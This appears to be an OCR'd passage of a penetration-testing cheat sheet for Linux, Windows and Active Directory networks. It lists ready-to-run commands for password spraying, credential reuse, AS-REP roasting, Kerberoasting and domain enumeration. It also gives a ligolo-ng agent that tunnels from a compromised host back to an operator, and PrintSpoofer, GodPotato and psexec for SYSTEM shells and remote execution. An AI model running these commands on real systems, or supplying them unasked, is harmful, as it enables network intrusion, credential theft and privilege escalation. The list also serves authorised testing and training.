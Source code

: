 - `sudo -l` – Discover permitted sudo commands.
- `find / -perm -4000 -type f 2>/dev/null` – SUID binary sweep.
- `cat /etc/passwd | cut -d: -f1` – List local users.
- `linpeas.sh` – Automated privilege escalation checks (`./linpeas.sh`).
- `./pspy64 -pf -i 5` – Watch scheduled tasks and processes without root.

## Host Enumeration – Windows
- `systeminfo` – OS version, roles, hotfix baseline.
- `ipconfig /all` – Network layout.
- `whoami /all` – Identity, groups, and privileges.
- `netstat -ano` – Active network connections and PIDs.
- `tasklist /svc` – Running services and owning processes.
- `wmic qfe get Caption,Description,HotFixID,InstalledOn` – Patch inventory.
- `winPEAS.exe /quiet` – Automated Windows privilege escalation checks.

## Credential & Service Abuse (nxc + quick wins)
- `nxc smb <target>/24 -u <user> -p <pass> --shares` – Enumerate SMB shares with credential reuse.
- `nxc smb <target> -u users.txt -p passwords.txt --no-brute` – Password spray with lockout-safe timing.
- `nxc winrm <target> -u <user> -p <pass> -x "whoami"` – Test WinRM command execution.
- `nxc rdp <target> -u <user> -p <pass>` – Validate RDP credential success and NLA status.
- `nxc ssh <target> -u <user> -p <pass>` – SSH credential testing.

## Kerberos & AD Tooling
- `nltest /dsgetdc:<domain>` – Identify the domain controller.
- `nslookup -type=SRV _ldap._tcp.<domain>` – Locate LDAP SRV records.
- `kerbrute userenum --dc <dc_ip> -d <domain> <userlist>` – Spray for valid domain users.
- `GetADUsers.py <domain>/<user>:<pass> -all` – Dump AD users via LDAP (Impacket).
- `GetNPUsers.py <domain>/<user>:<pass> -request` – AS-REP roasting collection.
- `GetUserSPNs.py <domain>/<user>:<pass> -request` – Kerberoasting for service accounts.
- `Rubeus.exe asktgt /user:<user> /password:<pass>` – Request TGTs (aka "Rubese"); swap `/rc4` or `/ptt` for alternate modes.
- `certipy find -u <user>@<domain> -p <pass> -dc-ip <dc_ip>` – Discover AD CS misconfigurations.
- `bloodhound-python -u <user> -p <pass> -ns <dc_ip> -d <domain> -c All` – Collect BloodHound ingestors.
- `ldapdomaindump -u <user> -p <pass> ldap://<dc_ip>` – Export AD objects for offline review.

## Pivoting & Tunneling
- `ligolo-ng proxy -listen 0.0.0.0:11601 -selfcert` – Operator-side listener setup.
- `./agent -connect <operator_ip>:11601 -ignore-cert -relay 0.0.0.0:1080` – Compromised host agent to start SOCKS tunnel.
- `ifconfig tun0` (Linux) / `ipconfig` (Windows) – Verify tunnel interface once ligolo is running.
- `ssh -L <local_port>:<internal_host>:<internal_port> <user>@<pivot>` – Traditional SSH local port forward when available.

## Exploitation & Priv-Esc Execution
- `PrintSpoofer64.exe -i -c cmd.exe` – Weaponize SeImpersonatePrivilege for SYSTEM shell.
- `GodPotato.exe -cmd "cmd.exe"` – Alternate SeImpersonate exploit for modern builds.
- `wmiexec.py <domain>/<user>:<pass>@<target>` – Execute commands remotely (Impacket).
- `psexec.py <domain>/<user>:<pass>@<target>` – Drop service for SYSTEM shell via SMB.
- `evil-winrm -i <target> -u <user> -p <pass>` – PowerShell remoting with convenience features.
- `./linpeas.sh` / `winPEAS.exe` – Keep handy for immediate post-exploitation enumeration.
